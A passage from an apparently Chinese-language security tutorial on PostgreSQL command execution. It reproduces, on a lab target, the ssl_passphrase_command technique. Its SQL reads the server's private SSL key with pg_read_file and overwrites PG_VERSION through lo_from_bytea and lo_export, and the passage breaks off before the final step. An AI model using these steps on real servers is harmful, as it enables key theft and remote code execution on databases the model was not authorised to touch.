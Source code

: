 当每次有新连接进来时，都会加载 session\_preload\_libraries 配置的共享库。

和上面的利用 UDF 命令执行一样，不过不同点在于上面一个是创建 function 加载，这个方式是通过改配置文件中的 session\_preload\_libraries 进行加载，这里就不复现了

## [](#%E5%88%A9%E7%94%A8-ssl_passphrase_command-%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)利用 ssl\_passphrase\_command 执行命令

方法来自于 [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli) 这篇文章的场景

**利用条件**

-   需要知道 PG\_VERSION 文件的位置 (不是 PG\_VERSION 文件也行，pgsql 限制私钥文件权限必须是 0600 才能够加载，pgsql 目录下的所有 0600 权限的文件都是可以的，但覆盖后没啥影响的就 PG\_VERSION 了)

**描述**

当配置文件中配置了 ssl\_passphrase\_command，那么该配置在需要获取用于解密 SSL 文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的 ssl 配置改为我们要执行的命令，通过 lo\_export 覆盖配置文件，最后通过 pg\_reload\_conf 重载配置文件时将执行命令

**复现**

这里以靶机上已经存在的 2 个密钥文件为例

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>/etc/ssl/certs/ssl-cert-snakeoil.pem<br>/etc/ssl/private/ssl-cert-snakeoil.key<br>``` |

通过文件读取获取私钥

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');<br>``` |

对私钥文件加密

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 密码为 12345678<br>openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key<br><br># 输出为 base64 格式<br>cat private_passphrase.key \| base64 -w 0 > base.txt<br>``` |

上传 private\_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件，发现 PG\_VERSION 文件符合条件，而且覆盖也没有太大影响

PG\_VERSION 与 config\_file 文件同目录，上传私钥文件覆盖 PG\_VERSION，可绕过权限问题。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>-- 将 private_passphrase.key 覆盖 PG_VERSION 文件<br>select lo_from_bytea(10004,decode('base64的内容,这里略','base64'));<br>select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');<br>SELECT lo_unlink(10004);<br>``` |

在靶机中查看验证是否写入成功
